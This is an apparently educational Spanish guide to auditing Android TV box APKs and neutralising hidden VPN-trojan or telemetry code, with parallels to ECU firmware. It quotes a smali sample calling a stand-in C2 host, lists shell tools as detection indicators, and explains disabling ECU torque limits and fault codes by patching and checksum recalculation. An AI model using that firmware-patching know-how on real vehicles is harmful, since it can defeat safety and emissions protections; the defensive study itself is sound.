


# Ingeniería Inversa Defensiva: De APKs de Android a Memorias y ECUs Automotrices

> **Guía Técnica y Educativa del Proyecto `lean-tv-box`**  
> *Cómo auditar binarios en sistemas embebidos, diseccionar paquetes Android (`.apk`), neutralizar código parasitario y comprender su paralelismo exacto con la electrónica y reprogramación automotriz.*

---

## Tabla de Contenidos

1. [Filosofía: Sistemas Embebidos y el Derecho a Auditar tu Hardware](#1-filosofía-sistemas-embebidos-y-el-derecho-a-auditar-tu-hardware)
2. [Extracción Forense en Vivo con ADB (`pm path` + `adb pull`)](#2-extracción-forense-en-vivo-con-adb-pm-path--adb-pull)
3. [Anatomía Interna de un Binario `.apk`](#3-anatomía-interna-de-un-binario-apk)
4. [Auditoría de Permisos Críticos y Servicios Ocultos (`forensic_apk_auditor.py`)](#4-auditoría-de-permisos-críticos-y-servicios-ocultos-forensic_apk_auditorpy)
5. [Técnicas de Neutralización Defensiva (Manifiesto y Bytecode Smali)](#5-técnicas-de-neutralización-defensiva-manifiesto-y-bytecode-smali)
6. [Paralelismo Técnico Directo con la Electrónica Automotriz (ECUs)](#6-paralelismo-técnico-directo-con-la-electrónica-automotriz-ecus)

---

## 1. Filosofía: Sistemas Embebidos y el Derecho a Auditar tu Hardware

A primera vista, un decodificador **Android TV Box (como el Skyworth HP40A / Flowbox F1)** conectado al televisor del living y una **Unidad de Control de Motor (ECU Bosch EDC17 o Magneti Marelli)** atornillada al vano motor de un vehículo parecen pertenecer a mundos completamente distintos.

Sin embargo, bajo la lupa de la ingeniería electrónica y el análisis binario, **ambos son exactamente lo mismo**:

* **Un microprocesador de arquitectura RISC:** un SoC **Amlogic S905X2 (ARM Cortex-A53)** en la TV Box frente a un microcontrolador **Infineon TriCore (TC1797 / Aurix)** o **Renesas RH850** en la ECU.
* **Una memoria no volátil:** un chip **eMMC / NAND Flash** frente a una memoria **NOR Flash interna (PFlash) + EEPROM (DFlash)**.
* **Un firmware estructurado con rutinas de arranque, tablas de parámetros y validación criptográfica:** que define qué funciones están permitidas, qué telemetría se reporta y qué límites artificiales (`whitelists` o limitadores de par) se imponen sobre el hardware físico.

La **Ingeniería Inversa Defensiva** consiste en adquirir el binario que corre dentro del equipo sin alterarlo, comprender su estructura interna, identificar rutinas defectuosas o maliciosas (como el troyano VPN `com.haxsmart.skylive` o demonios TR-069 que agotan los 2 GB de RAM) y neutralizarlas quirúrgicamente respetando la integridad del sistema.

---

## 2. Extracción Forense en Vivo con ADB (`pm path` + `adb pull`)

La primera regla de cualquier análisis forense digital o diagnóstico electrónico es **nunca modificar ni borrar un componente sospechoso antes de extraer una copia bit a bit (*dump*) para su estudio**.

Cuando detectamos en una TV Box un proceso desconocido que consume CPU de manera anómala o abre conexiones de red hacia servidores externos, realizamos una **adquisición en vivo (*Live Acquisition*)** a través del puente de depuración **ADB (*Android Debug Bridge*)**.

### Paso 1: Identificación del Proceso en Ejecución

```bash
# Observar los procesos con mayor consumo de CPU y memoria en tiempo real
adb shell top -m 15

# Inspeccionar el desglose exacto de memoria RAM (PSS y Private Dirty) de un paquete
adb shell dumpsys meminfo com.haxsmart.skylive

# Verificar sockets TCP/UDP abiertos e interfaces virtuales (como tun0)
adb shell ip addr show
adb shell netstat -tunap
```

### Paso 2: Localización de la Ruta Física del Binario (`pm path`)

En Android, las aplicaciones no se guardan con un nombre predecible en una sola carpeta:
* Los paquetes preinstalados en el firmware residen en `/system/app/`, `/system/priv-app/`, `/vendor/app/` o `/product/app/`.
* Las aplicaciones instaladas o actualizadas posteriormente se alojan en directorios con sufijos pseudoaleatorios codificados en Base64 dentro de `/data/app/` (ej. `/data/app/com.haxsmart.skylive-a8F9kL2m==/base.apk`).

Para preguntarle al `PackageManager` la ruta exacta en la memoria eMMC donde reside el ejecutable:

```bash
adb shell pm path com.haxsmart.skylive
# Salida típica:
# package:/data/app/com.haxsmart.skylive-1/base.apk
```

### Paso 3: Extracción del Binario (`adb pull`) y Firma Hash

Con la ruta exacta confirmada, extraemos el archivo hacia nuestra estación de trabajo en un directorio aislado de evidencia y calculamos inmediatamente su hash criptográfico **SHA-256**:

```bash
# Crear carpeta de evidencia forense en la PC
mkdir -p ./forensic_dumps/skylive

# Extraer el binario intacto desde la memoria eMMC de la TV Box
adb pull /data/app/com.haxsmart.skylive-1/base.apk ./forensic_dumps/skylive/com.haxsmart.skylive.apk

# Extraer también el volcado de metadatos del PackageManager
adb shell dumpsys package com.haxsmart.skylive > ./forensic_dumps/skylive/dumpsys_package.txt

# Calcular el hash SHA-256 (Linux / macOS / PowerShell)
sha256sum ./forensic_dumps/skylive/com.haxsmart.skylive.apk
```

> [!TIP]
> El hash SHA-256 te permite consultar bases de inteligencia de amenazas como *VirusTotal* o *Hybrid Analysis* sin siquiera subir el archivo, comprobando al instante si la muestra ya fue reportada como troyano o botnet de proxy residencial (ej. variantes de *Vo1d*, *PeachPit* o *Bigpanzi* en Android TV).

---

## 3. Anatomía Interna de un Binario `.apk`

Un archivo **`.apk` (*Android Package*)** no es un ejecutable monolítico opaco, sino un contenedor comprimido en formato **ZIP (PKZIP, cabecera mágica `50 4B 03 04`)** que agrupa código compilado, recursos indexados, descriptores de sistema y firmas criptográficas.



### 3.1. `AndroidManifest.xml` (Formato Binario AXML)

Si extraes un `.apk` con cualquier descompresor ZIP y abres `AndroidManifest.xml` en un editor de texto, verás caracteres ilegibles. Esto se debe a que durante la compilación del APK (mediante `aapt` / `aapt2`), el XML de texto plano se compila al formato propietario **AXML (*Android Binary XML*)**:

* **Cabecera del Chunk:** Comienza con los bytes mágicos `03 00 08 00` (`RES_XML_TYPE`), seguidos de un entero de 32 bits Little Endian que indica el tamaño total del archivo.
* **El Pool de Strings (`RES_STRING_POOL_TYPE` - `01 00 1C 00`):** Para ahorrar espacio y acelerar el parseo en tiempo de carga, todas las cadenas de texto del manifiesto (nombres de permisos como `android.permission.BIND_VPN_SERVICE`, nombres de clases, acciones de intents) se almacenan una única vez en una **tabla de strings al principio del archivo**, y el resto del árbol XML solo guarda índices numéricos (enteros de 32 bits) que apuntan a esa tabla.
* **Codificación `UTF-16LE`:** En la gran mayoría de los manifiestos AXML, las cadenas dentro del *String Pool* están codificadas en **UTF-16 Little Endian (`UTF-16LE`)**, donde cada carácter ASCII está separado por un byte nulo (`0x00`). Por ejemplo, la cadena `"VPN"` no se almacena como `56 50 4E`, sino como `56 00 50 00 4E 00`.
  * *Implicancia Forense:* Si buscas cadenas con una herramienta simple que solo lea ASCII/UTF-8, **no verás los permisos ni los servicios declarados en `AndroidManifest.xml`**. Por eso nuestro auditor forense decodifica tanto secuencias **ASCII/UTF-8** como **UTF-16LE**.

### 3.2. `classes.dex` (*Dalvik Executable*)

Contiene todo el código fuente Java o Kotlin de la aplicación compilado en bytecode para la máquina virtual **ART (*Android Runtime*) / Dalvik**.

* **Cabecera Mágica:** Comienza con los 8 bytes `64 65 78 0A 30 33 35 00` (`"dex\n035\0"` o versión superior como `038`/`039`).
* **Verificación de Integridad Interna:** Justo después del magic header, el archivo `.dex` contiene:
  1. Un **Checksum Adler-32** de 4 bytes (offset `0x08`) calculado sobre todo el resto del archivo.
  2. Un **Hash SHA-1** de 20 bytes (offset `0x0C`).
* **Tablas Estructuradas:** El archivo está organizado en tablas indexadas de altísima densidad:
  * `string_ids`: Punteros a todas las cadenas constantes del código (URLs de servidores de comando y control C2, comandos shell pasados a `Runtime.exec()`, claves de cifrado, nombres de métodos).
  * `type_ids`, `proto_ids`, `field_ids`, `method_ids`: Todas las firmas de clases y llamadas a APIs del sistema Android.
  * `class_defs` y sección `data`: El bytecode ejecutable real de cada método.

### 3.3. Librerías Nativas ELF (`lib/<abi>/*.so`)

Cuando un desarrollador de malware o de DRM propietario quiere ocultar su lógica del análisis de bytecode Java, escribe el núcleo crítico en **C o C++** y lo compila como una librería compartida **ELF (*Executable and Linkable Format*, cabecera `7F 45 4C 46`)** dentro de `lib/armeabi-v7a/` (32 bits) o `lib/arm64-v8a/` (64 bits).

* Estas librerías se cargan desde Java mediante `System.loadLibrary("nombre")` y se comunican a través de **JNI (*Java Native Interface*)**.
* Muchos troyanos de Android TV implementan el cliente de proxy socks5/VPN o el demonio de minería/botnet directamente dentro de un archivo `.so` compilado para ARM, ejecutando llamadas al sistema Linux (`socket`, `connect`, `ioctl`, `fork`) directamente contra el kernel del Amlogic S905X2.

---

## 4. Auditoría de Permisos Críticos y Servicios Ocultos (`forensic_apk_auditor.py`)

Para automatizar la inspección sin depender de pesadas suites gráficas, el repositorio incluye [`scripts/forensic_apk_auditor.py`](file:///C:/Users/merca/OneDrive/Desktop/lean-tv-box/scripts/forensic_apk_auditor.py).

### Indicadores Forenses de Alto Riesgo en un Android TV Box

Al auditar un APK extraído de una TV Box, existen combinaciones de permisos y componentes que inmediatamente disparan las alarmas:

| Indicador / Permiso en `AndroidManifest.xml` o `classes.dex` | Nivel de Severidad | ¿Por qué es crítico en una TV Box? |
| :--- | :---: | :--- |
| `android.permission.BIND_VPN_SERVICE` / `android.net.VpnService` | **CRÍTICO** | Una aplicación que no es un cliente VPN comercial legítimo instalado por el usuario **jamás debe declarar un servicio VPN**. Permite interceptar todo el tráfico de la red local o convertir la TV Box en un nodo de salida de una red criminal de proxies residenciales (caso `com.haxsmart.skylive`). |
| `android.permission.RECEIVE_BOOT_COMPLETED` | **ALTO** | Permite que la aplicación despierte sola en el instante en que se conecta el cable de corriente de la TV Box, sin que el usuario jamás abra su icono. |
| `android.permission.FOREGROUND_SERVICE` + `SYSTEM_ALERT_WINDOW` | **ALTO** | Técnica empleada para blindar el proceso contra el `LowMemoryKiller` de Android y dibujar capas invisibles sobre la pantalla. |
| `Runtime.getRuntime().exec` / `ProcessBuilder` / `/system/bin/sh` | **ALTO** | Ejecución directa de comandos de consola Linux (`su`, `pm`, `ip route`, `iptables`, `curl`, `chmod 777`) por debajo del framework de Android. |
| `dalvik.system.DexClassLoader` / `InMemoryDexClassLoader` | **CRÍTICO** | Carga dinámica de código ejecutable secundario descargado desde internet o desencriptado en memoria RAM en tiempo de ejecución para evadir el análisis estático inicial. |
| Protocolos `TR-069` / `CWMP` / `XMPP` (`org.jivesoftware.smack`) | **MEDIO (Telemetría)** | Demonios de gestión remota del ISP que mantienen conexiones TCP permanentes, reportan el inventario del equipo y consumen cientos de MB de RAM. |

### Cómo utilizar `scripts/forensic_apk_auditor.py`

El script abre el contenedor `.apk` en memoria en modo solo lectura, inspecciona la estructura ZIP, extrae los flujos binarios de `AndroidManifest.xml` y `classes.dex`, barre tanto cadenas **ASCII/UTF-8** como **UTF-16LE** (para capturar el *String Pool* del formato AXML sin necesidad de descompiladores externos), identifica librerías nativas `.so` y genera un reporte forense completo:

```bash
# Analizar un archivo APK sospechoso o un directorio completo de APKs extraídos
python scripts/forensic_apk_auditor.py ./forensic_dumps/skylive/com.haxsmart.skylive.apk
```

---

## 5. Técnicas de Neutralización Defensiva (Manifiesto y Bytecode Smali)

¿Qué ocurre cuando una aplicación del sistema es indispensable para cierta función de hardware (por ejemplo, un servicio que controla el display LED frontal o el emparejamiento del control remoto Bluetooth), pero el fabricante incrustó dentro de esa misma APK un módulo de telemetría o un servicio espía que se inicia en el arranque?

En esos casos, suspender o borrar el paquete completo rompería la función útil. Aquí entra en juego la **cirugía binaria defensiva**.

### Herramientas del Flujo de Modificación

1. **`apktool`:** Desensambla el binario AXML a XML legible y traduce el bytecode de `classes.dex` al lenguaje ensamblador humano de Dalvik llamado **Smali**.
2. **`zipalign`:** Alinea los datos sin comprimir dentro del ZIP a límites de 4 bytes para que Android pueda mapearlos directamente en memoria con `mmap()`.
3. **`apksigner` / `keytool`:** Recalcula los hashes criptográficos de cada archivo y firma el contenedor.

```bash
# Desensamblar el APK para inspección y cirugía
apktool d aplicacion_hibrida.apk -o ./analisis_smali
```

### Técnica 1: Castración del `BootReceiver` en `AndroidManifest.xml`

Al abrir `./analisis_smali/AndroidManifest.xml`, buscamos los receptores (`<receiver>`) que escuchan el encendido del dispositivo y los servicios (`<service>`) de telemetría o VPN:

```xml
<!-- ANTES: El receptor despierta automáticamente al encender la TV Box -->
<receiver
    android:name="com.vendor.telemetry.BootReceiver"
    android:enabled="true"
    android:exported="true">
    <intent-filter android:priority="1000">
        <action android:name="android.intent.action.BOOT_COMPLETED" />
        <action android:name="android.intent.action.QUICKBOOT_POWERON" />
    </intent-filter>
</receiver>
```

Lo neutralizamos cambiando `android:enabled="false"`, `android:exported="false"` y eliminando el `<intent-filter>`:

```xml
<!-- DESPUÉS: Receptor desactivado permanentemente a nivel de manifiesto -->
<receiver
    android:name="com.vendor.telemetry.BootReceiver"
    android:enabled="false"
    android:exported="false" />
```

### Técnica 2: Inyección de `return-void` en Bytecode Smali

A veces, el código principal de la aplicación llama directamente al método de inicialización del módulo de telemetría o del túnel VPN al abrir una ventana (`Activity.onCreate()`). Si borramos la clase entera, el programa principal lanzará una excepción fatal **`java.lang.NoClassDefFoundError`** y la aplicación se cerrará.

La solución elegante y limpia es abrir el archivo `.smali` correspondiente (ej. `smali/com/haxsmart/skylive/VpnTunnelService.smali` o `TelemetryManager.smali`), localizar el método que inicia la carga útil (`startTunnel()V`, `onStartCommand(...)I` o `onReceive(...)V`) e **inyectar una instrucción `return-void` (opcode `0x0e`) en la primera línea ejecutable**:

#### Antes de la modificación (Bytecode Smali original):

```smali
.method public startVpnAndTelemetry()V
    .locals 4

    .prologue
    const-string v0, "https://c2-tracker.malicious-domain.example/api/v1/checkin"
    invoke-static {v0}, Lcom/haxsmart/skylive/NetworkCore;->connectTunnel(Ljava/lang/String;)V
    invoke-direct {p0}, Lcom/haxsmart/skylive/VpnTunnelService;->spawnBackgroundThreads()V

    return-void
.end method
```

#### Después de la cirugía (`return-void` en el punto de entrada):

```smali
.method public startVpnAndTelemetry()V
    .locals 0

    # Neutralización defensiva: aborta la ejecución en el ciclo 0 y devuelve el control
    return-void
.end method
```

#### ¿Por qué esta técnica es infalible?

1. La firma del método (`startVpnAndTelemetry()V`) sigue existiendo exactamente igual en la tabla `method_ids` de `classes.dex`.
2. Cuando el resto de la aplicación invoca `invoke-virtual {v0}, ...->startVpnAndTelemetry()V`, la máquina virtual ART entra al método, ejecuta `return-void` en un nanosegundo y regresa al flujo principal creyendo que la tarea se completó con éxito.
3. **No se instancia ningún hilo, no se abre ningún socket de red, no se consume ni un solo byte de RAM y la aplicación jamás sufre un crash.**

---

## 6. Paralelismo Técnico Directo con la Electrónica Automotriz (ECUs)

Para quienes vienen del mundo de la **electrónica automotriz, el diagnóstico avanzado y la reprogramación de unidades de mando (Chiptuning / Ingeniería de Calibración en ECUs Bosch, Delphi, Magneti Marelli, Continental/Siemens)**, todo lo que acabamos de hacer sobre la TV Box resulta sorprendentemente familiar.

Los principios físicos, lógicos y criptográficos son **idénticos**.

### Diagrama Comparativo de Flujo Forense: Android TV Box vs. ECU Automotriz



### Tabla de Equivalencias Técnicas Lado a Lado

| Concepto de Ingeniería | Android TV Box (Skyworth HP40A / Flowbox) | ECU Automotriz (Bosch EDC17/MED17, Delphi, Marelli) |
| :--- | :--- | :--- |
| **Unidad de Procesamiento (CPU)** | SoC **Amlogic S905X2** (4x ARM Cortex-A53 @ 1.8 GHz, arquitectura ARMv8-A). | Microcontrolador **Infineon TriCore** (`TC1797`, `TC1767`, `Aurix TC277/TC397`), **Renesas** (`SH7058`, `RH850`) o **Freescale/NXP** (`MPC5554` PowerPC). |
| **Memoria de Programa y Datos** | Memoria **eMMC 5.1** particionada (`/boot`, `/system`, `/vendor`, `/data`) + **2 GB DDR RAM**. | Memoria **Flash Interna (IROM/PFlash)** de 2 MB a 8 MB (código + mapas) + **EEPROM / DFlash** (inmovilizador, VIN, kilometraje, códigos de adaptación) + **SRAM**. |
| **Protocolo de Adquisición / Lectura** | **ADB (*Android Debug Bridge*)** sobre USB o red TCP/IP (`pm path` + `adb pull`). | Lectura en banco (*Bench / Service Mode*) vía **GPT + CAN-Bus (ISO 15765-4 / UDS servicio `$27 SecurityAccess` + `$23 ReadMemoryByAddress`)** o acceso directo al silicio por **BDM / JTAG / Boot-Pin**. |
| **Estructura del Binario Extraído** | Contenedor `.apk` con `AndroidManifest.xml` (AXML), `classes.dex` (bytecode Dalvik) y librerías nativas `.so` (ELF ARM). | Volcado binario crudo (`.bin` / `.ori`) dividido en **bloques de código máquina (ASM TriCore/SH/PowerPC)** y **bloques de calibración** (mapas 2D/3D de inyección, encendido, presión de rail, turbo y tabla de errores DTC). |
| **Neutralización Quirúrgica de Rutinas** | Inyección de **`return-void` (`0x0e`)** al inicio de un método Smali o `pm suspend --user 0` para anular un servicio sin romper llamadas externas. | Reemplazo de saltos condicionales (`jeq`, `jne`, `call`) por instrucciones **`NOP` (*No Operation*, ej. `0x00` en TriCore)** en el código ensamblador, o puesta a `00` del **Switch de Configuración (1 byte)** en el área de calibración para desactivar una rutina (ej. monitoreo de un actuador eliminado o estrategia en banco de pruebas). |
| **Tabla de Desactivación de Eventos** | Eliminación de `<intent-filter>` (`BOOT_COMPLETED`) en el manifiesto para que el sistema nunca despierte al componente. | Anulación en la **Matriz de Clases de Error (*DTC Class Table / Error Path Table*)**: se localiza el índice del código P-Code en la tabla de fabricante y se pone a `00` su byte de clase de mil/reacción para que la ECU no entre en modo de emergencia (*Limp Mode*). |
| **Protección de Integridad y Firma** | **Checksum Adler-32 + SHA-1** en la cabecera de `classes.dex`, más **APK Signature Scheme v2/v3 (SHA-256 + RSA)** en `META-INF`. | **Checksums de bloques (Suma aritmética, XOR, CRC32)** más validación de firma digital **RSA-1024/2048 (*Bosch TPROT - Tuning Protection*)** verificada por el Bootloader en cada encendido. |
| **Fallo por no Recalcular el Checksum** | Android rechaza la instalación o carga del paquete con el error **`INSTALL_PARSE_FAILED_NO_CERTIFICATES`** o `DexOpt: checksum mismatch`. | La ECU detecta corrupción de memoria al dar contacto, **bloquea el pulso de inyección (el motor gira pero no arranca)** y graba en EEPROM la avería **`P0601` / `P0605` (*Internal Control Module Memory Check Sum Error*)**. |

---

### Ejemplo Práctico del Paralelismo: `return-void` en Smali vs. `NOP` en Ensamblador TriCore (Bosch EDC17)

Observa cómo la lógica mental del analista es **exactamente la misma** en ambos sistemas:

#### 1. En el Troyano / Telemetría de la TV Box (Bytecode Dalvik / Smali)

Queremos impedir que el método `checkAndStartVpn()` se ejecute cuando el sistema arranca:

```smali
# En lugar de borrar la clase (lo que causaría un crash en el llamador),
# devolvemos el control inmediatamente con return-void (0x0e):
.method public checkAndStartVpn()V
    .locals 0
    return-void
.end method
```

#### 2. En el Firmware de una ECU con Microcontrolador Infineon TriCore (Ej. Bosch MED17 / EDC17)

Supongamos que estamos analizando en *Ghidra* o *IDA Pro* un volcado `.bin` leído en banco de una ECU con procesador **Infineon TriCore TC1797**. Existe una subrutina (`sub_8004A210`) que evalúa una condición secundaria de bloqueo en banco de pruebas y salta a una rutina de limitación de par (`limp_mode_torque_limit`):

```assembly
; --- CÓDIGO ORIGINAL EN FLASH (Arquitectura Infineon TriCore) ---
8004A210:  ld.bu   d15, [a12]0x148A    ; Carga el byte de estado desde la dirección de calibración/RAM
8004A214:  jz.t    d15, 0, loc_8004A220 ; Si el bit 0 es cero, salta y continúa operación normal
8004A218:  call    sub_8009F100        ; ¡LLAMADA A RUTINA RESTRICTIVA / BLOQUEO!
8004A21C:  mov     d2, #0x01           ; Marca flag de limitación activa
8004A220:  ret                         ; Retorno de la subrutina (equivalente a return-void)
```

Si un principiante intentara borrar bytes del archivo `.bin`, desplazaría todos los offsets de memoria del resto de la Flash y destruiría el programa completo (causando un *Watchdog Reset* inmediato en el microcontrolador).

En cambio, aplicando exactamente el mismo criterio quirúrgico que en el APK:
1. O bien colocamos la instrucción **`ret` (`0x00 0x90` en TriCore)** al principio de la subrutina si queremos abortarla por completo (idéntico a `return-void`).
2. O bien reemplazamos los 4 bytes de la instrucción `call sub_8009F100` en la dirección `0x8004A218` por instrucciones **`nop` (`0x00 0x00`)** para preservar el alineamiento exacto de direcciones de memoria:

```assembly
; --- CÓDIGO MODIFICADO CON CIRUGÍA DEFENSIVA (NOP) ---
8004A210:  ld.bu   d15, [a12]0x148A    ; Carga el byte de estado
8004A214:  jz.t    d15, 0, loc_8004A220 ; Evaluación normal
8004A218:  nop                         ; Neutralizado (antes: call sub_8009F100)
8004A21A:  nop                         ; Mantiene el tamaño exacto de 4 bytes sin desplazar offsets
8004A21C:  mov     d2, #0x00           ; Flag de limitación en 0 (Sin restricción)
8004A220:  ret                         ; Retorno limpio al bucle principal (Main Loop)
```

Finalmente, antes de escribir el archivo modificado de vuelta a la memoria Flash de la ECU (o antes de instalar el APK modificado en Android):
* En la **ECU**, la herramienta de programación o el editor hexadecimal recalcula el **polinomio CRC32 / suma de bloques** y actualiza la tabla de Checksums al final del sector Flash para evitar el error `P0601`.
* En **Android**, el archivo `.dex` recalcula su **Checksum Adler-32 + SHA-1** en su cabecera de 112 bytes y `apksigner` firma los bloques SHA-256 del contenedor ZIP.

---

## Conclusión

Ya sea que estés liberando una **Android TV Box de 2 GB de RAM** asfixiada por el bloatware de una operadora y un troyano VPN, o diagnosticando en banco la **memoria Flash de una ECU automotriz**, el método científico es uno solo:

1. **Observar las métricas reales** (telemetría de RAM/CPU o parámetros en tiempo real por bus de datos).
2. **Extraer una copia forense íntegra** antes de realizar cualquier cambio (`adb pull` / lectura BDM-Bench).
3. **Analizar la estructura binaria** (tablas de strings UTF-16LE, manifiestos AXML y bytecode DEX, o mapas hexadecimales y ensamblador TriCore).
4. **Neutralizar con precisión quirúrgica** (`pm suspend --user 0`, `return-void` o `NOP`) respetando las firmas y los checksums del sistema.

El hardware que está en tu casa o en tu vehículo te pertenece: **entender cómo funciona a nivel binario es la herramienta definitiva para defender tu privacidad, tu seguridad y el rendimiento de tus equipos.**
